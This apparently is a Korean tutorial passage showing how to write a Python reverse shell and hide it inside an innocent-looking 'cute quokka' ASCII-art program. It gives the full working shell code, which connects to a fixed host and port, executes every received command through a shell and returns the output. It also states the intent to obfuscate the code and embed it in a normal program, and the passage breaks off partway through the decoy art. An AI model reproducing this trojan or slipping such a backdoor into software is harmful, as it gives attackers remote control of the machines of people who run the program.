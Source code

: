 이제 띄어쓰기도 좀 줄이고, 알아보기 힘들게 바꿉니다.

```python
import socket
import subprocess
h="172.17.0.3"
p=8282
s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((h,p))
while True:
    c=s.recv(1024).decode()
    output=subprocess.run(c,shell=True,stdout=subprocess.PIPE,text=True)
    result=output.stdout
    if(result==''):
        s.send("suc".encode())
    else:
        s.send(result.encode())
```

이제 이것을 정상 프로그램 안에 삽입합니다.

```python
print("<< 귀여운 쿼카 프로그램 >>")

v_quokka = '''         xxxxxxx                      
                      xx     xx                     
   xxx     xxxxxxxxxxxx       xx                    
 xxx  xxxxxx        xx         xx                   
 x      xx                      xx                  
 x                               xx                 
 xx                    xxx        xx                
  xxx     xxx          xxx          xx              
    x     xxx          xxx           xx       xxx   
   xx     xxx                         xx     xx x xx
   x             xxxx                  x    xxxxxxxx
  xx            xxxxx                  x xxxx     xx
 xx                x     x            xxxx        x 
 x           xx   xxxx  xx           xx           x 
 x             xxxx  xxxx          xxx           x  
 x               xx    xx        xxx             x  
 xx                xxxxx         x               x  
  xxx                                            x  
    xxxx                                        x   
   xx                                          xx   
  xx                                           x    
  x                                            x    
xx                                             x    
 xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx'''

smile_quokka = '''
                         ooo                             
     ooooo             ooo  oo                           
    o    oo    oooooo oo      oo                         
   oo     ooooo     oo         oo                        
   o                            ooo                      
  oo                    ooo       oo                     
   o                   oo ooo      oo                    
   o        ooo      oo             o                    
  oo      oo  oo                     o            ooo    
 oo       o        ooooo              oo         o oooooo
 o                 ooooo               ooooooooooo o ooo 
oo                oooooo                oo           oooo
oo                   oo       oo         o            oo 
 oo          oo      ooo     oo         o            oo  
  o           oooooooo ooooooo       oooo           oo   
```